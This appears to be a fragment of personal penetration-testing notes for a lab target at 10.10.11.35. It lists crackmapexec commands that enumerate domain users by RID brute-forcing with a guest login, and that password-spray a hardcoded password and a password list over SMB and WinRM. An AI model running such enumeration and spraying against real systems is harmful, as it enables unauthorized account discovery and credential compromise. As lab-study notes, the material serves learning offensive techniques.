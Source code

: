 ## Crackmapexec
rid-brute
```
crackmapexec smb 10.10.11.35 -u guest -p '' --rid-brute | grep SidTypeUser
```
![[Pasted image 20240928221302.png]]

password spray
```
crackmapexec smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success 
```
![[Pasted image 20240928221515.png]]

```
crackmapexec winrm 10.10.11.35 -u users.txt -p Passwords.txt --continue-on-success
```
